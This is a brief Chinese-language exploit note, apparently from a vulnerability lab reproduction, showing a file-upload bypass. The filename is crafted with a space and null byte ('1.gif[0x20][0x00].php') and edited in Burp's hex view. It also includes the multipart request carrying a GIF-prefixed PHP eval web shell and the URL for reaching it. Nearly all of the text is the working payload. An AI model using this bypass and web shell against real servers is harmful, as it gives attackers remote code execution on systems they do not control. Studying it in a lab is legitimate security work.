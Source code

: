 

只能用burp操作, python不行 `[0x20]`是空格，`[0x00]`是`\0` , 在burp发包时用hex视图修改为 00
```sh
# 抓包发送时改成这样 1.gif[0x20][0x00].php
------WebKitFormBoundaryE03siMgXSmvVi3Jl
Content-Disposition: form-data; name="file_upload"; filename="1.gif[0x20][0x00].php"
Content-Type: image/gif

GIF89a<?php @eval($_POST['cmd']); ?>
# 访问时也改成这样
http://your-ip:8080/uploadfiles/1.gif[0x20][0x00].php
```